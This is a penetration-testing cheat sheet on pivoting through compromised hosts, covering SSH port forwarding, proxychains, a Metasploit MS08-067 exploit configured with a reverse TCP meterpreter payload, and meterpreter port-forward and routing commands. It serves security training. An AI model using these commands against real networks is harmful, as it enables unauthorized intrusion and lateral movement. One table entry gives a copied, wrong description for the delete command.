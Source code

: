 

# Pivoting on a Penetration Test

## What is pivoting ?

Pivoting allows a security consultant to use a host compromised when [pen testing](https://www.aptive.co.uk/penetration-testing/) to route traffic to access hosts on the subnet or other subnets. Once a foot hold is established on a target network typically from successfully exploiting a target on an external penetration test or from a successful phishing / spear phishing campaign, pivoting allows a tester to move through the network compromising more hosts that were not exposed originally.

This article focuses specifically on pivoting from compromised Linux hosts using SSH and meterpreter pivoting. 

<div>
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>ssh -L 9999:10.0.2.2:445 user@192.168.2.250</code></p>
      </td>
      <td>
            <p>SSH port forwarding, port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250</p>
      </td>
    </tr>
      <tr>
      <td>
        <p><code>ssh -D 127.0.0.1:9050 root@192.168.2.250</code></p>
      </td>
      <td>
            <p>Proxychains Forwarding - Dynamically allows all port forwards to the subnets availble on the target.</p>
      </td>
    </tr>
      </tbody>
</table>
</div>

## Note on Proxychain port forwards 

Dynamic SSH Proxychain forwarding oes not work with meterpreter shells. 

If you attempt to spawn a shell via Meterpreter, you'll get an error similar to the following:

```bash 
meterpreter > execute -f cmd.exe -i -H
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:41713-<--timeout
``` 

## How to use Proxychain port forwards 

All commands must be prefixed with <code>proxychains</code> in order to route traffic correctly. 

### Example connecting to RDP over Proxychains 

```bash 
proxychains rdesktop TARGET-ADDRESS 
``` 

## Metasploit SSH Pivoting Example 

The following example uses the Metasploit module for **MS08_067** assumes you have setup the SSH port forward using the instructions above and port: <code>9999</code> is forwarded to 445. 

**Attacking Machine:** 192.168.3.99 

```bash
msf exploit(ms08_067_netapi) > show options

 Module options (exploit/windows/smb/ms08_067_netapi):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOST    0.0.0.0          yes       The target address
    RPORT    9999             yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


 Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
    LHOST     192.168.3.99     yes       The listen address
    LPORT     443              yes       The listen port

 Exploit target:

    Id  Name
    --  ----
   0   Automatic Targeting
``` 

## Meterpreter Pivoting Cheat Sheet 

If you have compromised a host during a penetration test it's possible to use the meterpreter shell to pivot to other hosts on the network. Using meterpreter it's possible to pivot from compromised Windows and Linux targets, however it's typically far less reliable than SSH port forwarding as Meterpreter sessions can time out killing the connection. 

<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd delete  –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd flush</code></p>
      </td>
      <td>
            <p>Delete all port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>portfwd list</code></p>
      </td>
      <td>
            <p>List active port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>run autoroute -s 192.168.15.0/24</code></p>
      </td>
      <td>
            <p>Autoroute script to add the route for specified subnet <code>192.168.15.0</code></p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>run autoroute -p</code></p>
      </td>
      <td>
            <p>List all active routes</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route</code></p>
      </td>
      <td>
            <p>View available networks the compromised host can access</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route add 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Add route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route delete 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Delete route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>route flush</code></p>
      </td>
      <td>
            <p>Delete all Meterpreter routes</p>
      </td>
    </tr>

      </tbody>
</table>

 
## How to Connect to targets using Meterpreter Port Forwards 

The port is forwarded locally to the target. Using RDP as an example, assuming you have setup a meterpreter port forward using the same port for local and remote. You would connect to it using: 

```bash 
rdesktop 127.0.0.1
```

Enjoy.  
